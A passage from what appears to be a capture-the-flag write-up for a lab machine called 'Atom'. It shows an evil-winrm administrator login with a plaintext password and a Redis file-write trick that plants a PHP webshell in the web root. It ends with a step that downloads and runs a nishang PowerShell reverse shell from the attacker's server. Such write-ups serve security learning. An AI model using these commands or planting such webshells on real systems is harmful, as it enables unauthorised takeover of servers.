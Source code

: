 There are multiple ways from here to get a shell as this user on the machine. You could for example use psexec to gain a system shell. Since the second way involves a shell as system anyways we will use evil-winrm to connect to the machine as administrator.

```php
$ evil-winrm -u administrator -p kidvscat_admin_@123 -i  10.129.132.110 

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
atom\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> dir ../desktop


    Directory: C:\Users\Administrator\desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         4/18/2021   2:28 AM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

## Route 2 filewrite => RCE as system

The second route also works with redis but it slightly different.
With redis we have arbitrary file write in the web root and the webserver is running as system. This makes it easy to create a simple webshell in the webroot and get codeexecution as system

```php
10.129.132.110:6379> config set dir C:\xampp\htdocs\
OK
10.129.132.110:6379> config set dbfilename grem.php
OK
10.129.132.110:6379> set grem "<?php system($_REQUEST['3474545cadd66826dade9d3d87e89feb']); ?>"
OK
10.129.132.110:6379> save
OK
```

Calling whoami on our webshell we see that we have indeed code execution as `nt authority\system`.

[![webshell_poc.png](/img/atom/webshell_poc.png)](/img/atom/webshell_poc.png)

All that is left now is to send the request to burp for convenience, change the request method, download and execute the [nishang Invoke-PowershellTcp.ps1 reverse-shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) from our webserver to get a shell as system.
